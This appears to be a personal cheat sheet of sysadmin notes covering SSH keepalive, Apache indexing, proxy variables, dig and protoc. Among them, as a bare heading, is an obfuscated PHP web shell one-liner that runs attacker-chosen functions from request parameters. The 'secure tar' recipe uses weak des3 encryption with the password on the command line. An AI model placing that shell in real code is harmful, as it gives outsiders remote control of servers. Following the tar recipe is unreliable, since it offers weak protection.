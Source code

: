 # fswatch
`go install github.com/codeskyblue/fswatch`

# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```

    Options Indexes FollowSymLinks
    IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# ($_=@$_GET[2]).@$_($_POST[1])


# ssh connection alive
## server
```

	TCPKeepAlive yes #表示TCP保持连接不断开
	ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。设置个300表示5分钟发送一次（注意，这里是服务端主动发起），然后等待客户端响应，成功，则保持连接。
	ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```

	Host * #表示需要启用该规则的服务端（域名或ip）
		ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
		ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```

	tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
	#dd if=tar.tar.gz |openssl tar -d -k youPassword |tar zxf -
	openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```

		export https_proxy=10.0.0.52:8080
		export https_proxy=user:pass@192.158.8.8:8080
		export https_proxy=socks://10.0.0.52:1080
		export https_proxy=socks4://10.0.0.52:1080
		export https_proxy=socks5://10.0.0.52:1080
		export ftp_proxy=socks5://10.0.0.52:1080
		export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`

# gorpc
`protoc -I server/proto/ server/proto/geo.proto --go_out=plugins=grpc:server/proto`
